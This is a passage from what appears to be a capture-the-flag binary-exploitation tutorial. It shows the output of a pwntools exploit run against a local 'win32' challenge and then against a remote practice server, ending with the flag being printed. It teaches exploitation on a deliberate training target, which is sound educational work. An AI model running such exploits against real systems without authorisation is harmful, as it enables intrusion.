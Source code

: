 Let's run this exploit:

```nasm
$ python3 win32.py
[+] Starting local process './win32': pid 17532
[*] Switching to interactive mode
Can you figure out how to win here?
cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './win32' stopped with exit code -11 (SIGSEGV) (pid 17532)
```

We see that `cat` gets called! That means our exploit worked, but since we're running locally, there is no `flag.txt` to find. Let's switch our process to target the remote server:

```python
proc = remote('vunrotc.cole-ellis.com', 1100)
```

Now let's run this:

```nasm
[+] Opening connection to vunrotc.cole-ellis.com on port 1100: Done
[*] Switching to interactive mode
Can you figure out how to win here?
flag{welcome_to_binex}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 1100
```

As we can see, the flag is printed!
